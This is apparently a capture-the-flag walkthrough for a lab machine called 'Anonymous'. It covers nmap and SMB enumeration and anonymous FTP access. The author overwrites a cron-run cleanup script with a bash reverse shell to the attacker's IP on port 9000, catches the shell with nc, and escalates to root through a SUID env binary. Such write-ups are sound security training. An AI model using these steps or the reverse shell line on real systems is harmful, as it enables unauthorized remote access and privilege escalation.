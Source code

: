 Anonumous
===

###  PWN

- [x] Enumerate the machine.  How many ports are open?
As always, we can use namp to enumerate open ports.  
`nmap -sV -sC 10.10.11.170`  
```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-11-04 06:15 GMT
Nmap scan report for ip-10-10-11-170.eu-west-1.compute.internal (10.10.11.170)
Host is up (0.0010s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)   <---can use anonymous login!!
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeabl                                                                  e]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.27.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protoco                                                                  l 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (EdDSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:88:90:5A:E3:A3 (Unknown)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknow                                                                  n> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-11-04T06:15:52+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-11-04 06:15:52
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap                                                                  .org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```
- [x] What service is running on port 21?  
21 port is ftp
- [x] What service is running on ports 139 and 445?  
139 and 445 are smb
- [x] There's a share on the user's computer.  What's it called?  
use smbclient to confirm share disk 
`smbclient -N -L 10.10.11.170`
![image](https://user-images.githubusercontent.com/67756786/199912107-a01e29dd-40db-4bb9-95f6-c5db6aabf0f2.png)

- [x] user.txt  
we use anonymous login ftp server.
`ftp -4 10.10.11.170`  
![image](https://user-images.githubusercontent.com/67756786/199905611-889abdec-ff61-474f-96f7-1cd73446c6fe.png)
use `ls` to check what file are there, and we found scripts directory.
![image](https://user-images.githubusercontent.com/67756786/199905651-9f7f2938-7811-4de5-a393-8914fe795f08.png)
Into the scripts, and we got three file.
![image](https://user-images.githubusercontent.com/67756786/199906253-23f369f4-fe45-4c8d-97aa-1bbecd0090b7.png)
download all file .
`mget *`
clean.sh
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
removed_files.log
```
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
to_do.txt
```
I really need to disable the anonymous login...it's really not safe
```
We know clean.sh is delete file's shell script,and removed_files.log is log of clean.sh.to_do.txt is user's note.  
removed_files will be bigger over time,and i guess that crontab should be work for clean.sh.we can add bash reverse shell into
clean.sh,and upload to ftp server.  
Bash TCP  
`/bin/bash -l > /dev/tcp/10.10.27.128/9000 0<&1 2>&1`
listen to 9000 port and upload clean.sh  
`nc -lvnp 9000`  
into ftp server , put new clean.sh  
`put clean.sh`  
![image](https://user-images.githubusercontent.com/67756786/199908391-66377823-80e3-465d-a355-7f7482401cc5.png)
![image](https://user-images.githubusercontent.com/67756786/199908457-dcca7c04-60d7-4051-8131-6e496e50100e.png)

- [x] root.txt  
First, I use python pty to get better shell  
![image](https://user-images.githubusercontent.com/67756786/199910410-fff469dd-66dc-4b38-bb39-31e8c41b38ce.png)

we can confirm privilege now.  
But we don't have namelessone password  
`sudo -l`
![image](https://user-images.githubusercontent.com/67756786/199910678-b7b867d3-0e51-4bd9-8ed3-0059a4594b13.png)  

So we found SUID to privilege escalation.
`find / -perm -u=s -type f 2>/dev/null`  
![image](https://user-images.githubusercontent.com/67756786/199911319-67f783e4-b5de-4782-ac83-836995edcc3e.png)

I confirm all applicatoin to GTFOBins. If applicatoin use sudo to privilege escalation, we can't exploit, because we don't have
password.

I found env can use SUID to privilege escalation.  
![image](https://user-images.githubusercontent.com/67756786/199911445-dca2041f-f582-4448-b32f-ef466a98b2cb.png)
got root.txt
![image](https://user-images.githubusercontent.com/67756786/199911573-d639b774-e745-43ec-a5a5-3e93d7b8d0ea.png)

